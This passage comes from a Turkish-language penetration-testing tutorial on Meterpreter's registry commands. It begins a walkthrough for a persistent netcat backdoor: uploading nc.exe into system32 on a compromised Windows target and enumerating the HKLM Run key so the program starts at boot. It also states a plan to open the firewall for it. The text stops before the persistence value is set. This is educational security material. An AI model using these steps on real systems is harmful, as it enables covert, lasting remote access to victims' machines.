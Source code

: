 

Yardım komutunun sonucunda görebileceğiniz gibi, `reg` komutu, Registry üzerinde okuma (`queryval`), yazma (`setval`), yeni ayarlama oluşturma (`createkey`) ve silme (`deletekey`) olanağı sağlamaktadır.



Bu komutlar sayesinde yeni değerler oluşturma, değerleri değiştirme yapabileceğiniz gibi doğru yerlere bakarak sistem hakkında bilgi toplama işlemleri de yapabilirsiniz. Windows Registry içerisinde hangi değerin nerede kayıt edildiği hakkında kendinizi geliştirmenizi tavsiye ediyorum. Bir fikir vermesi açısından bağlantıda bulunan PDF dosyasını inceleyebilirsiniz. <a href="https://support.accessdata.com/hc/en-us/article_attachments/201717329/Registry_Quick_Find_Chart_9-27-10.pdf">List</a>



## Kalıcı Netcat Arka Kapısı



Aşağıda adım adım gerçekleştireceğimiz örnekte, hedef sisteme `netcat` programını yerleştireceğiz. Registry ayarlarında işlemler yaparak `netcat` programının bilgisayar açıldığında otomatik başlamasını ayarlayacağız. Sistemde bulunan Firewall ayarlarının, `netcat` programına ve 445 numaralı porta müsaade etmesini sağlayacağız.



<h3 class="wp-block-heading" id="ncexe-programını-yükleme">nc.exe Programını Yükleme



Öncelikle hedef Windows işletim sisteminin içerisine `nc.exe` olarak bilinen netcat programını yükleyelim. Bunun için önceden bir şekilde meterpreter shell açmış olmalısınız. Bununla ilgili örnekleri önceki yazılarımızda belirtmiştik. Kali işletim sistemi içerisinde `/usr/share/windows-binaries/` klasöründe faydalı bir kaç programı bulabilirsiniz.


```bash
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
> uploading  : /tmp/nc.exe -> C:\windows\system32
> uploaded   : /tmp/nc.exe -> C:\windows\system32nc.exe
```



<h3 class="wp-block-heading" id="netcat-başlangıçta-otomatik-çalışsın">netcat Başlangıçta Otomatik Çalışsın



nc.exe programının işletim sisteminin her başladığında çalışması için Registry içinde `HKLM\software\microsoft\windows\currentversion\run` anahtarına bir değer oluşturmalısınız. Öncelikle, mevcut değerleri ve ayarları görelim. Ters \ işaretlerinin iki defa yazıldığına dikkat edin.


```bash
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
Enumerating: HKLM\software\microsoft\windows\currentversion\run

  Values **(**3**)**:

    VMware Tools
    VMware User Process
    quicktftpserver
```
